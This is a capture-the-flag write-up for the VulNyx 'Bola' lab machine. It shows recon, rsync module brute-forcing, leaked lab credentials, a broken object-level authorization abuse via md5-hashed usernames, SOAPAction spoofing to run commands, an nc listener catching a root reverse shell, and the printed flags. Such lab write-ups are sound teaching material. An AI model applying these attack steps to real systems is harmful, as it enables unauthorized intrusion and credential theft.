

# CTF Penetration Testing

## Platform: VulNyx

### Machine: [Bola](https://vulnyx.com/#bola)

- Machine type:  Linux
- Machine difficulty: 🟨 Medium

#### Skills Learned

- **Crawling** - `/.well-known/openid-configuration`, `/.well-known/security.txt`
- **Rsync Bruteforce**
- **Broken Object Level Authorization (BOLA)**
- **Web Services Description Language (WSDL)** - SOAPAction Spoofing

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.132

192.168.247.132 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.132 -T5 

[SNIP]

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
873/tcp open  rsync
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.132

http://192.168.247.132 [302 Found] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.132], RedirectLocation[http://bola.nyx]
ERROR Opening: http://bola.nyx - no address for bola.nyx
❌

┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.132\tbola.nyx' | sudo tee -a /etc/hosts

192.168.247.132 bola.nyx

┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.132

http://192.168.247.132 [302 Found] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.132], RedirectLocation[http://bola.nyx]
http://bola.nyx [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.132], Title[VulNyx | Offensive Security Playground]
```




**Crawling**

```
┌──(nabla㉿kali)-[~]
└─$ dirsearch -u http://bola.nyx

[SNIP]

[11:17:19] 200 -  115B  - /.well-known/security.txt                         
[11:17:19] 200 -    1KB - /.well-known/openid-configuration
[11:17:21] 302 -    0B  - /admin/admin.php  ->  /login/login.php            
[11:17:29] 302 -    0B  - /download.php  ->  /login/login.php               
[11:17:33] 301 -  304B  - /login  ->  http://bola.nyx/login/ 
```

```
┌──(nabla㉿kali)-[~]
└─$ curl http://bola.nyx/.well-known/security.txt     

Contact: mailto:jackie0x17@nyx.com
Expires: 2025-08-20T10:12:00.000Z
Preferred-Languages: en, es

┌──(nabla㉿kali)-[~]
└─$ curl -s http://bola.nyx/.well-known/openid-configuration | jq

[SNIP]

  "userinfo": [
    {
      "sub": "d4t4s3c",
      "name": "d4t4s3c",
      "email": "d4t4s3c@nyx.com"
    },
    {
      "sub": "jackie0x17",
      "name": "jackie0x17",
      "email": "jackie0x17@nyx.com"
    },
    {
      "sub": "ct0l4",
      "name": "ct0l4",
      "email": "ct0l4@nyx.com"
    }
  ]
}
```

**Rsync Bruteforce**

```
┌──(nabla㉿kali)-[~]
└─$ rsync rsync://bola.nyx/

❌
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p873 192.168.247.132 -T5 

[SNIP]

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 32)
```

```
┌──(nabla㉿kali)-[~/tools/rsync-brute]
└─$ ./rsync-brute -t bola.nyx -p 873 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

[SNIP]

 🎯 Target   | bola.nyx:873
 📖 Wordlist | /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 🔎 Status   | 1669/220559/0%/extensions
 💥 Resource | extensions
```

```
┌──(nabla㉿kali)-[~]
└─$ rsync rsync://bola.nyx/extensions

drwxr-xr-x          4,096 2025/02/05 11:43:23 .
-rw-r--r--         93,553 2025/02/05 10:42:57 Password_manager_FirefoxExtension-VulNyx.pdf
-rw-r--r--         30,811 2025/02/05 10:31:41 password_manager.zip

┌──(nabla㉿kali)-[~]
└─$ rsync -avz rsync://bola.nyx/extensions/* ./

receiving incremental file list
Password_manager_FirefoxExtension-VulNyx.pdf
password_manager.zip

sent 62 bytes  received 113,919 bytes  227,962.00 bytes/sec
total size is 124,364  speedup is 1.09
```


```javascript
jackie0x17@nyx.com:sbIJ0x9g{C3`
```


**Broken Object Level Authorization (BOLA)**

```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'jackie0x17' | md5sum

115a2cf084dd7e70a91187f799a7d5a8  -

┌──(nabla㉿kali)-[~]
└─$ echo -n 'd4t4s3c' | md5sum

97035ded598faa2ce8ff63f7f9dd3b70  -
```


```javascript
admin:VulNyxtestinglogin123
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh d4t4s3c@'bola.nyx'

d4t4s3c@bola.nyx's password: 

Linux bola 6.1.0-30-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.124-1 (2025-01-12) x86_64

d4t4s3c@bola:~$
```

```
d4t4s3c@bola:~$ ls -la

total 28
drwxr-xr-x 3 d4t4s3c d4t4s3c 4096 Feb  6 06:44 .
drwxr-xr-x 5 root    root    4096 Feb  4 09:25 ..
lrwxrwxrwx 1 root    root       9 Feb  4 09:28 .bash_history -> /dev/null
-rw-r--r-- 1 d4t4s3c d4t4s3c  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 d4t4s3c d4t4s3c 3541 Feb  6 06:44 .bashrc
drwxr-xr-x 3 d4t4s3c d4t4s3c 4096 Feb  2 14:49 .local
-rw-r--r-- 1 d4t4s3c d4t4s3c  807 Apr 23  2023 .profile
-rw-r--r-- 1 d4t4s3c d4t4s3c   33 Jan 19 14:16 user.txt

d4t4s3c@bola:~$ cat user.txt

4e62a268197ebd869b7bafe859e35d00 🚩
```

```
d4t4s3c@bola:~$ ss -tunlp
Netid              State               Recv-Q              Send-Q                           Local Address:Port                           Peer Address:Port
tcp                LISTEN              0                   5                                      0.0.0.0:873                                 0.0.0.0:*
tcp                LISTEN              0                   5                                    127.0.0.1:9000                                0.0.0.0:*
tcp                LISTEN              0                   80                                   127.0.0.1:3306                                0.0.0.0:* 
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh -L 1337:127.0.0.1:9000 d4t4s3c@'bola.nyx'
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p1337 localhost

[SNIP]

PORT     STATE SERVICE VERSION
1337/tcp open  http    WSGIServer 0.2 (Python 3.11.2)
```

**Web Services Description Language (WSDL)**


```xml
<definitions name="VulNyxSOAP" targetNamespace="http://localhost/wsdl/VulNyxSOAP.wsdl">

  <message name="LoginRequest">
    <part name="username" element="username"/>
    <part name="password" element="password"/>
  </message>

  <message name="LoginResponse">
    <part name="status" type="string"/>
  </message>

  <message name="ExecuteCommandRequest">
    <part name="cmd" element="cmd"/>
  </message>

  <message name="ExecuteCommandResponse">
    <part name="output" element="cmd"/>
  </message>

  <portType name="VulNyxSOAPPortType">
    <operation name="Login">
      <input message="tns:LoginRequest"/>
      <output message="tns:LoginResponse"/>
    </operation>
    <operation name="ExecuteCommand">
      <input message="tns:ExecuteCommandRequest"/>
      <output message="tns:ExecuteCommandResponse"/>
    </operation>
  </portType>

  <binding name="VulNyxSOAPBinding" type="tns:VulNyxSOAPPortType">
    <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
    <operation name="Login">
      <soap:operation soapAction="Login"/>
      <input>
        <soap:body use="literal"/>
      </input>
      <output>
        <soap:body use="literal"/>
      </output>
    </operation>
    <operation name="ExecuteCommand">
      <soap:operation soapAction="ExecuteCommand"/>
      <input>
        <soap:body use="literal"/>
      </input>
      <output>
        <soap:body use="literal"/>
      </output>
    </operation>
  </binding>

  <service name="VulNyxSOAP">
    <port binding="tns:VulNyxSOAPBinding" name="VulNyxSOAPPort">
      <soap:address location="http://localhost:9000/wsdl/"/>
    </port>
  </service>

</definitions>
```


```xml
SOAPAction: ExecuteCommand

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns="http://localhost/wsdl">
   <soapenv:Header/>
   <soapenv:Body>
      <LoginRequest>
         <cmd>whoami</cmd>
      </LoginRequest>
   </soapenv:Body>
</soapenv:Envelope>
```


```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 7331
listening on [any] 7331 ...

[CONTINUE]
```


```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.132] 51806
```

```
whoami

root

ls -la /root/

total 44
drwx------  5 root root 4096 Feb  6 06:43 .
drwxr-xr-x 18 root root 4096 Feb  4 04:03 ..
lrwxrwxrwx  1 root root    9 Feb  4 09:28 .bash_history -> /dev/null
-rw-r--r--  1 root root  586 Feb  6 06:43 .bashrc
-rw-------  1 root root   20 Feb  5 10:14 .lesshst
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
lrwxrwxrwx  1 root root    9 Feb  4 09:28 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  3 root root 4096 Feb  6 06:34 projects
-rw-r--r--  1 root root   33 Feb  4 03:58 root.txt
-rw-r--r--  1 root root   66 Feb  6 06:35 .selected_editor
drwx------  2 root root 4096 Feb 12  2024 .ssh
-rw-r--r--  1 root root  168 Jan 19 14:19 .wget-hsts

cat /root/root.txt

8930fba2c5f4da4e76ceb626f8f5454a 🚩
```


---
---
